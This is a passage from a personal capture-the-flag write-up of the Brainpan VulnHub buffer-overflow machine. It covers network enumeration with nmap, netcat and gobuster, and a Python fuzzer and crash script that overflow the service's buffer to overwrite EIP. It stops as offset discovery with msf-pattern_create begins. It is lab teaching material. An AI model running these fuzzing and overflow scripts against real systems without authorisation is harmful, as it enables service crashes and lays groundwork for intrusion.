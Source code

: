 # BrainPan BufferOverflow VulnHub Machine 
Hello! I am [Mohamed](https://twitter.com/0xMohomiester) This is My WriteUp for Brainpan BufferOverflow VulnHub Machine ok Let's start with download machine from [VulnHub Brainpan](https://www.vulnhub.com/entry/brainpan-1,51/) and setup it on vmware or virtual box as you like I already finished the setup you shoud see :

![brainp](https://user-images.githubusercontent.com/47929033/130876624-1b4dc000-bcb9-467c-87db-30b5ec3af179.png)

That's great Let's start with enumeration I need to now ip address of machine so i will use command 
`sudo netdiscover` to find ip address: 

![Screen Shot 2021-08-26 at 12 44 34 AM](https://user-images.githubusercontent.com/47929033/130876911-b5242212-661d-4646-989c-c8772a9b85d2.png)

as you can see the ip address: `192.168.1.6` with `vmware,inc` hostname now we need to perform port scanning I will use nmap to scan for open port and service on machinewith command:

`sudo nmap 192.168.1.6` : 

![Screen Shot 2021-08-26 at 12 48 27 AM](https://user-images.githubusercontent.com/47929033/130877152-5af6c1f5-28b4-4bc2-bc16-dc239560a2c5.png) 

as you can see two ports are open `9999,10000` let's check port `9999` with netcat using command 
`nc -nvv 192.168.1.6 9999`:

![Screen Shot 2021-08-26 at 12 49 00 AM](https://user-images.githubusercontent.com/47929033/130877337-dbaddc9d-fb3c-4a03-add2-ed49cbea2e7e.png)

as you can see this is the vulnerable service: `Brainpan`,maybe port `10000` is web server let's check it with open it in web browser: 

![Screen Shot 2021-08-26 at 12 49 20 AM](https://user-images.githubusercontent.com/47929033/130877350-d1d98332-3831-4c9b-a820-031966af52d9.png) 

That's Great, It's web server that run on port `10000` now we need to discover some interesting directories that hidden in webiste by using Gobuster using command: 
`gobuster dir  --url http://192.168.1.13:10000/  -w /home/kali/Desktop/directory-list-2.3-medium.txt`

![Screen Shot 2021-08-26 at 12 40 56 AM](https://user-images.githubusercontent.com/47929033/130877722-9c037be4-a6f8-4f5d-8e69-5cd6e10d891e.png)

as you can see i found directory `/bin` let me see in browser: 

![Screen Shot 2021-08-26 at 12 40 35 AM](https://user-images.githubusercontent.com/47929033/130877992-ccdee6c7-91a5-4197-8106-e54b5839a92c.png)

oh! it's e executable file now we need to switch to windows machine on vmware to run programe
i will tranfer the programe to windows machine and run it: 

![Screen Shot 2021-08-26 at 1 43 00 AM](https://user-images.githubusercontent.com/47929033/130878391-e18acbce-e348-4f65-b4a3-cbdb54794f49.png)

as you can see the programe listen on port 9999 and waitin for connection, we need [Immunity Debugger](https://debugger.immunityinc.com/) to open application and see how it works During exploition phase
I already download it , I will open and run it as administrator to attach service: 

![Screen Shot 2021-08-26 at 1 49 10 AM](https://user-images.githubusercontent.com/47929033/130878958-189b07db-6e2d-41bd-a594-fe77294799a0.png) 

as you can see service name: `Brainpan` with PID `2108` after attack it run programe from `F9` in your keyboard and make sure that the programe is running in the right down side: 

![Screen Shot 2021-08-26 at 1 49 38 AM](https://user-images.githubusercontent.com/47929033/130879173-18bcdd76-6286-44f6-836a-95ea16152d9a.png)

as you can see programe runing we need now to Discover bufferoverflow vulnerability using fuzzing in my Kali Linux attacking machine I written simple fuzzer using python: 

```
#!/usr/bin/python

import socket 

counter = 100

ip = "192.168.1.15"

port = 9999

while (counter<=5012):
      
     print("payload sent")

     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
     payload = 'A' * counter
   
     s.connect((ip, port))

     s.send(payload + "\r\n")
     
     s.recv(1024)
     
     s.close()
     
     counter+=100
    
     print(payload + "\n")

print(len(payload))
```

That's Great Let's run our fuzzer to Discover crash on application: 

![Screen Shot 2021-08-26 at 2 06 17 AM](https://user-images.githubusercontent.com/47929033/130880235-d06b1266-0fa1-40c3-8cfa-4f5e77a413b9.png) 

as you can see fuzzer stoped with string of `AAA` how to know number of `A` ? it's very simple let me to create a file with `touch aa.txt` and copy string to file and use command: `cat aa.txt | wc -c`:

![Screen Shot 2021-08-26 at 2 07 45 AM](https://user-images.githubusercontent.com/47929033/130880433-95cb1c84-9dcc-4192-b79b-173a7490b81c.png)

as you can see tha programe crased and EIP register: `41414141`

![Screen Shot 2021-08-26 at 2 06 32 AM](https://user-images.githubusercontent.com/47929033/130881445-09e4193f-8c01-4a6e-8116-6cbcea6d23fc.png)

The string that crased applicaton: `600` of `A`, That's Great now we can write a exploit to know which four bytes that OverWrtie `EIP`: 

### Hint : CTR+F2 to restart debugger and service  and F9 to run debugger an service 

```
#!/usr/bin/python 
import socket 

buffer = 'A' * 600 

print 'payload sent'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 

s.connect(('192.168.1.15',9999))

s.send(buffer + "\r\n")

s.recv(1024)

s.close()

```
I will run exploit to see the programe crash or not : 

![Screen Shot 2021-08-26 at 2 26 21 AM](https://user-images.githubusercontent.com/47929033/130881239-d8dcb070-d15a-480c-adfb-fd28dacba624.png)

as you can see the programe crashed Now, let's create a unique string with `msf-pattern-create`, using command: `msf-pattern_create -l 600` and copy the unique string to exploit to 









